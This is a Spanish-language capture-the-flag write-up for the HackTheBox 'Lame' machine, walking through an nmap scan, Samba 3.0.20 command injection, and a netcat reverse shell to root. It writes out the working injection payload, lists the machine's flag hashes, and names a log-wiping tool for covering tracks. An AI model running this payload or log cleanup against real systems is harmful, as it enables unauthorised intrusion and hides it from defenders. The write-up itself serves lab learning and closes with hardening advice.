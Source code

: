 ```yaml
---
title: HackTheBox Lame
date: 2021-09-08 12:00:00 -0400
image: 
  path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/banner.png
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [injection, smb, cms, rce]
---
```



## Enumeración

**System IP: 10.10.10.3**

## Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![Matriz de la maquina](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/matrix.png)


**Enumeración de servicios**


Server IP Address | Ports Open
------------------|-----------------------------
10.10.10.3        | **TCP**: 21,22,139,445,3632

**Nmap Scan Resultados:**

Usando el siguiente comando para enumerar las versiones y servicios que corren en cada puerto luego de hacer un escaneo de puertos abiertos.

```bash
nmap -A -n -Pn -p21,22,139,445,3632 10.10.10.3
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 21:12 EDT
Nmap scan report for 10.10.10.3
Host is up (0.12s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

## Identificación de vulnerabilidades

Como podemos observar, en el puerto 445 corre la version 3.0.20 de samba, entonces hacemos una búsqueda en searchsploit con el comando searchsploit samba 3.0.20.

![Busqueda en searchsploit de la versión de samba](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/search.png)

Para no usar metasploit analizamos el codigo del exploit con el comando searchsploit -x 16320 y encontramos el payload que se aplica en el input del username al momento de logearse.

```bash
username = "/=`nohup " + payload.encoded + "`"
```

Código de la prueba de concepto: [16320.rb](https://github.com/offensive-security/exploitdb/blob/master/exploits/unix/remote/16320.rb)


## Acceso al sistema

Para poder acceder al sistema ya sabemos que comando tenemos que ejecutar al momento de introducir el usuario en el servicio samba, pero primero debemos saber en que servicios compartidos podemos acceder, para eso ejecutamos el comando smbmap -H 10.10.10.3 y encontramos que el recurso tmp permite leer y escribir, entonces accedemos con el comando smbclient \\\\10.10.10.3\\tmp  y escribimos el siguiente comando.

Este es el resultado después de acceder al recurso compartido de tmp.

![Accediendo al recurso compartido tmp](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/tmp.png)

```bash
logon "/=`nohup nc -e /bin/bash 10.10.14.2 444`"
```
Este payload establecerá una reverse shell en nuestra maquina victima a traves del puerto 443, entonces antes de ejecutar este comando nos ponemos en escucha por este puerto con el comando nc -nlvp 444.

![Obteniendo acceso como root](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/axes.png)

Luego hacemos el tratamiento de la tti para obtener una bash interactiva .


Finalmente obtenemos acceso como root, y procedemos a buscar el user y root txt.


**Prueba de obtención del user.txt**

flag: 7ef6fe278f3e5dbf81838fda2aab55d4



![Prueba del User.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/usertxt.png)



## Escalamiento de privilegios

Al haber obtenido acceso como usuario de máximos privilegios con el exploit ejecutado, esta fase se omitirá

**Prueba de obtención del root.txt**

flag: 4aae3f0d424655df2b0e7585d98844bb



![Prueba del root.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/roottxt.png)



## Técnicas Post-explotación


**Limpiando nuestros registros de actividades dentro de los logs**

Usando la herramienta automatizada [Covermyass](https://github.com/sundowndev/covermyass) que se basa en un script de shell para cubrir pistas en sistemas UNIX. 



## Técnicas de Hardening

+ Siempre actualice y parchee su software En este método de explotación, aprovechamos las vulnerabilidades divulgadas públicamente que tienen actualizaciones de seguridad y parches disponibles. 

+ Los puertos de Samba no deben ser expuestos Utilice un firewall para denegar el acceso a estos servicios desde fuera de la red. Además, restrinja el acceso a su servidor solo a usuarios válidos y deshabilite el acceso WRITE si no es necesario. 

Gracias por leer y happy hacking!